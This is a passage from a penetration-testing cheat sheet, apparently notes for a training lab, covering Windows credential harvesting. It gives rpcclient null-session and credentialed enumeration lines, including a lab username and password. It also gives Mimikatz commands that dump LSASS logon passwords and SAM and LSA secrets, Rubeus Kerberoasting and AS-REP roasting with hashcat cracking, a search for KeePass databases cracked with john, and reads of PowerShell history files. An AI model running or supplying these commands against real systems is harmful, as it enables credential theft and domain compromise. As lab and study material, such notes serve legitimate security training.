 ### No Creds:

`rpcclient -U "" -N <IP>`

### Creds:

`rpcclient -U "medtech.com/wario%Mushroom!" <IP>`

---

### 02. Searching for Passwords

### On Windows

### Mimikatz [cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

**Requires admin permissions**

- `privilege::debug` `token::elevate`
- `sekurlsa::logonpasswords`
    - `ekeys` `credman` `wdigest`
- `lsadump::sam`
    - `secrets`
- `.\mimikatz.exe "token::elevate" "lsadump::secrets" exit`

### Rubeus

**Requires admin permissions** **Kerberoasting**

- `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
- `sudo hashcat -m 13100 hashes.kerb /usr/share/wordlists/rockyou.txt --force`
- **AS-REP Roasting**
- `.\Rubeus.exe asreproast /nowrap`
- `sudo hashcat -m 18200 hashes.asrep /usr/share/wordlists/rockyou.txt --force`
- `sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

### Cached Credentials

**Database Files**

- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
- `keepass2john Database.kdbx > Keepasshash.txt`
- `john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt`
- Move the database to `~/keepass` and interact with `kpcli`
- 

**PowerShell history**

- `Get-History`
- `(Get-PSReadlineOption).HistorySavePath`
- `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` (Run for each user)
